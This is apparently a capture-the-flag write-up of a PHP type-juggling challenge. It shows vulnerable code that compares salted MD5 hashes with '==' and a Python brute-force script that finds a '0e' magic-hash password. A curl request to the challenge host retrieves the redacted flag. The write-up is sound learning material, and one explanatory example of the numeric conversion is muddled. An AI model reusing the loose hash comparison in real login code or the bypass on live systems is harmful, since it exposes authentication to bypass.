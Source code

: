 Compare the pair

Source Code:

```
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```
password hash and salt is hardcoded

however salted so can't use the rainbow table

But this script is PHP so Possibily use type-juggling attack

password_hash: 0e902564435691274142490923013038
fake_hash    : 0e668271403484922599527929534016

PHP sees a number (0), followed by the letter "e", and it converts the MD5 string to exponential notation (e.g. 0462097431906509019562988736854).
Because both MD5 hashes start with "0e", they both evaluate to 0, making them numerically equivalent.

So if you can create a hash with 0e at the beginning, you should be able to get the flag.

create the script

```
import hashlib

salt = 'f789bbc328a3d1a3'
password = 0

while True:
    h = hashlib.md5(salt.encode() + str(password).encode()).hexdigest()
    if h[:2] == "0e" and h[2:].isdigit():
        print(h)
        print(password)
        break
    password += 1

```
```
->$ python3 test.py
0e668271403484922599527929534016
237701818
```
```
->$ curl https://090d72e83b8895b1.247ctf.com/?password=237701818 | grep 247CTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1821  100  1821    0     0   1565      0  0:00:01  0:00:01 --:--:--  1567
247CTF{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}<code><span style="color: #000000">
```



